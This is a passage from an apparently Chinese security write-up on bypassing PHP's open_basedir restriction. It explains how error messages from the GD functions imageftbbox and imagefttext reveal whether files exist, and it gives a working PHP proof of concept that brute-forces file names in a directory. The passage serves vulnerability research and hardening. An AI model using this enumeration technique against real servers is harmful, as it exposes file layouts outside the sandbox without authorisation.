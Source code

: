 这个方法有个特点，不管是否开启 open_basedir 都是可以枚举任意目录的。而上一个方法（realpath）只有在开启 open_basedir 且在 open_basedir 外的时候才会报错，才能列举目录。当然，没有开启 open_basedir 的时候也不需要这样列举目录了。

## 0x05 GD 库 imageftbbox/imagefttext 列举目录

* * *

GD 库一般是 PHP 必备的扩展库之一，所以我在寻找 open_basedir 的时候也会看看这些有用的扩展库。

这是新方法： [WooYun: php 设计缺陷导致绕过 open_basedir 列举目录之 3](http://www.wooyun.org/bugs/wooyun-2014-083688)

我拿 imageftbbox 举个例子，这个函数第三个参数是字体的路径。我发现当这个参数在 open_basedir 外的时候，当文件存在，则 php 会抛出“File(xxxxx) is not within the allowed path(s)”错误。但当文件不存在的时候会抛出“Invalid font filename”错误。

也就是说，我们可以通过抛出错误的具体内容来判断一个文件是否存在。这个方法和 realpath 有相似性，都会抛出 open_basedir 的错误。

我也修改了个简单的 POC：

```
<?php
ini_set('open_basedir', dirname(__FILE__));
printf("<b>open_basedir: %s</b><br />", ini_get('open_basedir'));
set_error_handler('isexists');
$dir = 'd:/test/';
$file = '';
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789_';
for ($i=0; $i < strlen($chars); $i++) { 
    $file = $dir . $chars[$i] . '<><';
    //$m = imagecreatefrompng("zip_png.jpg");
    //imagefttext($m, 100, 0, 10, 20, 0xffffff, $file, 'aaa');
    imageftbbox(100, 100, $file, 'aaa');
}
function isexists($errno, $errstr)
{
    global $file;
    if (stripos($errstr, 'Invalid font filename') === FALSE) {
        printf("%s<br/>", $file);
    }
}
?>

```

同样列举一下 d:/test

![enter image description here](img/img6_u112_png.jpg)
